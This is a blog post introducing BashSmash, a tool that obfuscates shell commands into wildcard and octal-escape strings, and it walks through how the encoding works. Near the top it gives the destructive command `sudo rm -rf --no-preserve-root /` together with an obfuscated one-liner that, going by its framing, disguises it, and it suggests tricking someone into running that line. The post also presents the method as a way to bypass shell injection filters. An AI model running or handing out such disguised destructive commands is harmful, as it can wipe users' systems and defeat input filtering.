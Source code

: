 ```yaml
---
layout: page
title:  "BashSmash"
description: "A tool for driving people crazy"
date:   2019-06-26
tags: projects
alises: [https://retrylife.ca/blog/2019/06/26/bashsmash]
---
```


I was watching this great [Liveoverflow video](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=1&cad=rja&uact=8&ved=2ahUKEwiOhNze_4fjAhUiB50JHR12D8AQwqsBMAB6BAgJEAQ&url=https%3A%2F%2Fwww.youtube.com%2Fwatch%3Fv%3D6D1LnMj0Yt0&usg=AOvVaw2nOgft0SoPZujc9js9Vxhx) yesterday, and really liked the idea of building escape sequences with strings. So, I built a new tool, [BashSmash](https://pypi.org/project/bashsmash/). 

## The goal
The goal of BashSmash is very similar to that described in Liveoverflow's video. Do anything in bash without using any letters or numbers except `n` and `f` (he used `i` instead of `f`). This can both bypass shell injection filters, and generally mess with people.

Saying "Hey, you should run:"
```bash
__() {/???/???/???n?f ${#};}; $(/???/???/???n?f $(/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" "" ``__ "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";););
```

Instead of:
```bash
sudo rm -rf --no-preserve--root /
```

Can usually get you much farther with your goal of world domination.

## How does this work?
BashSmash abuses bash wildcards, octal escape codes, and a large number of backslashes to obfuscate any valid shell script.

Firstly, it is important to know that `printf` will gladly convert any octal to a string, and bash's eval (`$()`) function will gladly run any string as a bash script. (See where this is going?)

Because of these tools, we know that the following is possible:
```bash
# Printf-ing a string will print the string
printf "hello" # This will return hello

# Printf-ing a sequence of octal escapes will also print a string
printf "\150\145\154\154\157" # This will also return hello

# Eval-ing a printf of an octal escape sequence will build a string, then run it in bash
$(printf "\150\145\154\154\157") # This will warn that "hello" is not a valid command
```

This has some issues. You may have noticed that letters are required to spell `printf`, and numbers are needed for the octal escapes. Let's start by fixing the letters problem.

Bash allows wildcards. You may have run something like `cp ./foo/* ./bar` before. This uses the wildcard `*`. The `*` wildcard will be auto-evaluated to expand into a list of all files in it's place.
```bash
# Let's assume that ./foo contains the following files:
#   john.txt
#   carl.txt

# Running the following:
cat ./foo/*

# Will automatically expand to:
cat ./foo/john.txt ./foo/carl.txt

# Now, lets assume that ./baz contains a single file:
#   KillHumans.sh

# Running:
./baz/*

# Will execute KillHumans.sh
```

Neat, Right? To take this a step further, you can use the second wildcard, `?`, to specify the number of characters you want to look for. Running `./baz/?` will not run `KillHumans.sh` because `KillHumans.sh` is not 1 char long. But `./baz/?????????????` will. This is messy, but it works.

Now, back to our problem with `printf`. `printf` is located in `/usr/bin/printf` on all *nix systems. This is handy as, firstly, this can be wildcarded, and secondly, the path contains 2 `n`'s and an `f` (the two letters we are allowed to use). So, instead of calling `printf`, we can call `/???/??n/???n?f`. 
```bash
# Now, we can call:
/???/??n/???n?f "\150\145\154\154\157"

# To print "hello". Or:
$(/???/??n/???n?f "\150\145\154\154\157")

# To run "hello" as a program (still gives an error)
```

Now, our problem with letters is solved, but we are still using numbers.

Bash allows anyone to define functions. These functions can take arguments and call other programs. So, what if we have a function that can take any number of arguments, and return the number of arguments as a number? This will be helpful because an empty argument can be added with `""` (not a number or letter), and this will replace the need for numbers in our code. On a side note, bash allows `__` as a function name, so that's cool. 

```bash
# Our function needs to do the following:
#   - Take any number of arguments
#   - Turn the number to a string
#   - Print the string so it can be evaluated back to a number with $()

# First, we start with an empty function, named __ (two underscores)
__() {};

# Easy. Next, we use a built-in feature of bash to count the number of arguments passed
__() { ${#} };

# With the ${#} feature in bash, giving this function 3 arguments will return a 3
# Next, we need to print this number to stdout 
# This can be done with printf
# We still do not want to use any letters or numbers, so we must use our string of wildcards
/???/??n/???n?f

# So, we just plug this into our function
__() {/???/??n/???n?f ${#}};

# Now, calling our function with three arguments
__ "" "" ""
# Will print:
3
```

Let's put this together. First, we must tell bash that our `__` function exists. 
``` bash
# We do this by starting our new script with: 
__() {/???/??n/???n?f ${#}};

# Next, an eval to actually run our constructed string. Together it now looks like this:
__() {/???/??n/???n?f ${#}); $(/???/??n/???n?f )

# Now, we construct a string using the __ function over and over again. "echo hello" looks like:
__() {/???/???/???n?f ${#};}; $(/???/???/???n?f $(/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" ``__ "" "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" `";/???/???/???n?f "\\\\`__ "" ``__ "" "" "" "" "" ``__ "" "" "" "" "" "" "" `";););
```

Thats it! You do not actually have to worry about this, because BashSmash does it all for you automatically.

## How do I use the script?
To use BashSmash, simply make sure both `python3.7` and `python3-pip` are installed on your computer, then run:
```
pip3 install bashsmash
```

For more info, see the [PYPI Page](https://pypi.org/project/bashsmash/).

## Why do you have a desire to break things with python
Because it is fun. Give it a try! 

I will have a post here at some point about the weird things I do in my python code and why I do them.